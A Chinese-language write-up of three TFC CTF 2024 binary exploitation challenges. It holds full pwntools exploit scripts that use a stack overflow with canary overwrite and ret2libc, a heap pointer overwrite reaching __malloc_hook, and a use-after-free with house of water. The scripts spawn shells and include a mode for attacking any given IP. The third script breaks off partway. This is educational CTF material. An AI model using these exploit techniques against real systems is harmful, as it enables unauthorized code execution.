# 2024-08-05-TFC CTF 2024-PWN

‍

‍

‍

```python
https://ctf.thefewchosen.com/challenges
```

‍

## GUARD-THE-BYPASS

‍

- 题解数：64 solves
- 难度：easy

### 题目分析

‍

- 程序代码





‍

用 `pthread_create`​ 创建了一个新的线程运行`game` 函数，存在栈溢出

在使用`pthread_create`时，tls会被定位到与线程的栈空间相接近的位置，所以如果输入的数据过长的话也可以把这里覆盖掉canary

ret2libc

‍

### exploit

‍

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('challs.tfcctf.com',32407)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './guard'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''
b *0x040132F
#continue
'''.format(**locals())
io = start(binary)

rdi = 0x0000000000401256 # pop rdi ; ret

ru('chall.\n')
sl('1')
ru('len: ')
#gdb.attach(io,gdbscript)
sl('5000')
pause()
pay  = b'\x00' * 0x38 + p64(rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x40132F)
pay += b'A' * 0x7c0 + p64(elf.bss() + 0x500) * 4 + p64(0) * 4
sl(pay)
libc_base = uu64(r(6)) - libc.sym['puts']
lss('libc_base')
libc.address = libc_base
pause()

pay  = b'\x0a' + b'\x00' * 0x38 +p64(rdi+1)+  p64(rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
sl(pay)

itr()

```



‍

## VSPM

- 题解数：39 solves
- 难度：medium

### 题目分析

‍

- glibc 2.30 的一道简单堆题，漏洞是 在写name的时候可以轻松的修改 下面的ptr,控制 指针
- 后面的打法方式也是比较多的

```python
struct heap_ptr
{
  size_t ptr;
  char name[0x20];
  size_t ptr;
  char name[0x20];
  size_t ptr;
  char name[0x20];
  size_t ptr;
  char name[0x20];
 ....
};

```

‍

‍

### exploit

‍

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('challs.tfcctf.com',32010)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './chall'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''

#continue
'''.format(**locals())
io = start(binary)

def save(length,cred,name):
    ru('Input: ')
    sl('1')
    ru('length: ')
    sl(str(length))
    ru('credentials: ')
    s(cred)
    ru('ls: ')
    s(name)

def check():
    ru('Input: ')
    sl('2')

def rm(idx):
    ru('Input: ')
    sl('3')
    ru('index: ')
    sl(str(idx))

pay = p64(0) + p64(0xf1)
save(0x78,'A'*0x20,'B'*0x20)
save(0x78,pay,'D'*0x20)
save(0x78,'F'*0x20,'G'*0x20)
save(0x78,'/bin/sh\x00','G'*0x20)
rm(0)


save(0x78,'8'*0x20,b'h'*0x20 + p8(0xa0))
rm(1)
save(0x78,'A','B')
check()
ru(' -->')
ru(' --> ')
libc_base = uu64(r(6)) -  3886145
libc.address = libc_base 
free_hook = libc.sym['__free_hook']
system = libc.sym['system']

t = libc.sym['__malloc_hook'] - 0x23

save(0x68,'Q'*0x20,'G'*0x20)


rm(4)
rm(2)
pay  = p64(0) + p64(0x71)
pay += p64(t)
save(0x78,pay,'haha')

save(0x68,'1','1')

ogg = [0xc4dbf,0xc4ddf,0xc4de6,0xe1fa1]
pay  = 0x13 * b'A'
pay += p64(libc_base + ogg[3])
save(0x68,pay,'2')


lss('libc_base')
#gdb.attach(io,gdbscript)

ru('Input: ')
sl('1')
ru('length: ')
sl(str(0x18))

itr()

```



‍

‍

‍

## MCGUAVA

- 题解数：7 solves
- 难度：INSANE

### 题目分析

‍

- ubuntu:24.10
- GLIBC 2.39

‍

​`house of water` 的利用，参考

```pyhon
https://4xura.com/pwn/house-of-water/
```

‍

- 源码

```c


unsigned __int64 gius()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("guava no: ");
  __isoc99_scanf("%d", &v1);
  if ( v1 >= 0x100 )
  {
    puts("guava overload");
    exit(0);
  }
  free((void *)guava_gius[v1]);               // UAF 漏洞
  return v2 - __readfsqword(0x28u);
}


unsigned __int64 guava()
{
  int v0; // eax
  int v2; // [rsp+8h] [rbp-18h] BYREF
  int v3; // [rsp+Ch] [rbp-14h] BYREF
  char *v4; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( cnt_guavas > 0xFF )
  {
    puts("guava overload");
    exit(0);
  }
  printf("how many guavas: ");
  __isoc99_scanf("%d", &v2);
  if ( v2 > 0x6FF )
  {
    puts("guava overload");
    exit(0);
  }
  v4 = (char *)malloc(v2);
  printf("guavset: ");
  __isoc99_scanf("%d", &v3);
  if ( v3 < 0 || v2 - 2 <= v3 )
  {
    puts("guava overload");
    exit(0);
  }
  printf("guavas: ");
  read(0, &v4[v3], v2 - v3);
  v0 = cnt_guavas++;
  guava_gius[v0] = v4;
  return v5 - __readfsqword(0x28u);
}


int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+0h] [rbp-10h] BYREF
  int i; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  for ( i = 0; i <= 255; ++i )
    guava_gius[i] = 0LL;
  banner();
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%d", &v3);
    if ( v3 == 3 )
      exit(0);
    if ( v3 > 3 )
    {
LABEL_13:
      puts("invalid choice");
    }
    else if ( v3 == 1 )
    {
      guava();
    }
    else
    {
      if ( v3 != 2 )
        goto LABEL_13;
      gius();
    }
  }
}
```

‍

- 整题看下来，只有一个add 和 del 功能，没有show 。
- 然后del 存在一个UAF 漏洞。

‍

‍

使用 `house of water` 的一个手法，由于没有 edit 功能 还需要单独一点堆风水

需要爆破一个堆地址，和libc 的地址（大概1/255的概率，跑远程的话大概 20分钟能吧）



‍

‍

- 关键点，这里需要小小的运气 1/16的概率



‍

### 成功伪造的情况下

- unsortedbin 的状态



- 在上面的基础上，我们在申请一个 0x288 ,即可申请到 `Tache Perthread Struct` 上
- 此时我们可以直接控制 0x20 和0x30的tcachebins的链表 (此时他们的地址都是在libc上)



- 修改0x30链表的 低2个字节指向`_IO_2_1_stdout_` 附近（1/16的概率成功）



然后申请 `0x28`



‍

部分关键攻击代码



‍

‍

- 然后泄露地址​​




‍

- 泄露完地址，就可以自由发挥了

### exploit

‍

‍

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    #elif args.REM: return remote('127.0.0.1',1337)
    elif args.REM: return remote('challs.tfcctf.com',32713)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './guava'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''
brva 0x013E3
brva 0x001380
brva 0x012DB
#continue
'''.format(**locals())


env = {
    'LD_PRELOAD': './libc.so.6',
}

#io = process('./guava', env=env, executable='./ld-linux-x86-64.so.2')

#io = process('./ld-linux-x86-64.so.2', env=env, executable=binary)
#ld = './ld-linux-x86-64.so.2'
#io = process([ld,binary], env=env)


def add(size,idx=0,text='A'):
    ru('*> ')
    sl('1')
    sl(str(size))
    sl(str(idx))
    s(text)

def rm(idx):
    ru('*> ')
    sl('2')
    ru('guava no: ')
    sl(str(idx))

